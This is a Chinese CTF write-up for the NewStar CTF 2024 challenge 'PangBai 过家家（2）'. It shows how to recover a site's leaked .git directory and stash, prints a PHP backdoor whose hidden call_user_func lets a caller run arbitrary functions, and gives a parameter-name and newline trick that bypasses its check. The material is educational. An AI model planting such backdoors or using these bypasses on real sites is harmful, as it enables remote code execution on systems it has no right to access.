 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# PangBai 过家家（2）

题目所给出的提示是文件泄露（其实用 dirsearch 等扫描工具也可以扫描到 .git 目录）。

![任务一](/assets/images/wp/2024/week2/pangbai2_1.png)

使用 [GitHacker](https://github.com/WangYihang/GitHacker) 工具从 .git 文件夹中泄露文件到本地。

![使用 GitHacker](/assets/images/wp/2024/week2/pangbai2_2.png)

:::info 关于 GitHacker

GitHacker 工具可快速使用 pip 安装：

```bash
pip install githacker
```

:::

随后进入 output 文件夹，可以看到恢复的网站源码：

![查看恢复的源码](/assets/images/wp/2024/week2/pangbai2_3.png)

可以使用 git 命令查看当前项目的信息，比如使用 `git log` 查看提交历史

![查看提交历史](/assets/images/wp/2024/week2/pangbai2_4.png)

使用 `git reset HEAD~1` 可以回到上一个 Commit，或者直接使用 VSCode 打开泄露出来的 Git 存储库，能够更可视化地查看提交历史。

但是很遗憾，提交历史中并没有有价值的东西。查看 Stash：

```bash
git stash list
```

![git stash 输出信息](/assets/images/wp/2024/week2/pangbai2_5.png)

可以看到 Stash 中含有后门（实际上在 GitHacker 泄漏时就有 stash 的输出信息）

::: warning 注意

如果使用 GitHack 或其它的一些 Git 泄露获取工具，可能并不支持恢复 Stash.

:::

::: tip Stash 的作用

有时会遇到这样的情况，我们正在 dev 分支开发新功能，做到一半时有人过来反馈一个 bug，让马上解决，但是又不方便和现在已经更改的内容混杂在一起，这时就可以使用 `git stash` 命令先把当前进度保存起来。随后便可以即时处理当前要处理的内容。使用 `git stash pop` 则可以将之前存储的内容重新恢复到工作区。

又或者，我们已经在一个分支进行了修改，但发现自己修改错了分支，可以通过 Stash 进行存储，然后到其它分支中释放。

一些常见的 Stash 命令如：

- `git stash`

  保存当前工作进度，会把暂存区和工作区的改动保存起来。执行完这个命令后，在运行 `git status` 命令，就会发现当前是一个干净的工作区，没有任何改动。使用 `git stash save '一些信息'` 可以添加一些注释。

- `git stash pop [-index] [stash_id]`

  从 Stash 中释放内容，默认为恢复最新的内容到工作区。

:::

使用 `git stash pop` 恢复后门文件到工作区。

![恢复文件](/assets/images/wp/2024/week2/pangbai2_6.png)

发现了后门文件 `BacKd0or.v2d23AOPpDfEW5Ca.php`，访问显示：

![访问后门文件对应的网址](/assets/images/wp/2024/week2/pangbai2_7.png)

由于 `git stash pop` 已经将文件释放了出来，我们可以直接查看后门的源码：

```php
<?php

# Functions to handle HTML output

function print_msg($msg) {
    $content = file_get_contents('index.html');
    $content = preg_replace('/\s*<script.*<\/script>/s', '', $content);
    $content = preg_replace('/ event/', '', $content);
    $content = str_replace('点击此处载入存档', $msg, $content);
    echo $content;
}

function show_backdoor() {
    $content = file_get_contents('index.html');
    $content = str_replace('/assets/index.4f73d116116831ef.js', '/assets/backdoor.5b55c904b31db48d.js', $content);
    echo $content;
}

# Backdoor

if ($_POST['papa'] !== 'TfflxoU0ry7c') {
    show_backdoor();
} else if ($_GET['NewStar_CTF.2024'] !== 'Welcome' && preg_match('/^Welcome$/', $_GET['NewStar_CTF.2024'])) {
    print_msg('PangBai loves you!');
    call_user_func($_POST['func'], $_POST['args']);
} else {
    print_msg('PangBai hates you!');
}
```

后面的考点是 PHP 中关于非法参数名传参问题。我们重点关注下面这个表达式：

```php
$_GET['NewStar_CTF.2024'] !== 'Welcome' && preg_match('/^Welcome$/', $_GET['NewStar_CTF.2024'])
```

对于这个表达式，可以使用换行符绕过。`preg_match` 默认为单行模式（此时 `.` 会匹配换行符），但在 PHP 中的该模式下，`$` 除了匹配整个字符串的结尾，还能够匹配字符串最后一个换行符。

::: tip 拓展

如果加 `D` 修饰符，就不匹配换行符：

```php
preg_match('/^Welcome$/D', "Welcome\n")
```

:::

但如果直接传参 `NewStar_CTF.2024=Welcome%0A` 会发现并没有用。这是由 `NewStar_CTF.2024` 中的特殊字符 `.` 引起的，PHP 默认会将其解析为 `NewStar_CTF_2024`. 在 PHP 7 中，可以使用 `[` 字符的非正确替换漏洞。当传入的参数名中出现 `[` 且之后没有 `]` 时，PHP 会将 `[` 替换为 `_`，但此之后就不会继续替换后面的特殊字符了因此，GET 传参 `NewStar[CTF.2024=Welcome%0a` 即可，随后传入 `call_user_func` 的参数即可。

![获取到 flag](/assets/images/wp/2024/week2/pangbai2_8.png)
